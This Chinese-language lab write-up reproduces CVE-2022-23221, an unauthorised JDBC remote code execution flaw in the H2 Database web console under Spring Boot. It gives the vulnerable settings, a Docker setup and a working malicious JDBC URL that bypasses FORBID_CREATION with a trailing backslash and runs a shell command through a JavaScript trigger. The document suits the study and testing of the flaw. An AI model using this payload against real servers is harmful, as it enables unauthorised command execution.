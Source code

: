 # H2 Database Web Console未授权JDBC攻击导致远程代码执行（CVE-2022-23221）

H2 Database是一个快速、开源的基于Java的关系型数据库管理系统（RDBMS），可用于嵌入式（集成在Java应用中）和客户端-服务器模式。

当Spring Boot集成H2 Database时，如果设置如下选项，将会启用Web管理页面：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

在1.4.198版本中，H2 Web控制台限制了文件数据库的创建和内存数据库的连接，从而修复了[CVE-2018-10054](../CVE-2018-10054)漏洞。然而，在1.4.198至2.1.210（不含）版本中，攻击者仍可通过JDBC攻击和一些技巧绕过该限制，进而执行任意代码。

参考链接：

- <https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf>
- <https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html>
- <https://github.com/h2database/h2database/releases/tag/version-2.1.210>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## 环境搭建

执行如下命令启动一个集成了H2 Database 2.0.206版本的Spring Boot：

```
docker compose up -d
```

容器启动后，Spring Boot服务监听在`http://your-ip:8080`，H2管理页面默认地址为`http://your-ip:8080/h2-console/`。

## 漏洞复现

在复现本漏洞前，可以先确认[CVE-2018-10054](../CVE-2018-10054)中的payload已无法利用，因为1.4.197之后内存数据库被禁用：

![](1.png)

自1.4.197版本起，H2控制台会默认在JDBC URL后追加`;FORBID_CREATION=TRUE`，阻止文件数据库的创建和内存数据库的连接。但攻击者可以在JDBC URL末尾添加一个反斜杠`\`，扰乱URL语法，使FORBID_CREATION被忽略。

结合该技巧与JDBC攻击，可以构造如下恶意JDBC URL：

```
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\
```

在Web控制台登录时，使用上述URL即可执行任意命令（注意换行）：

![](2.png)
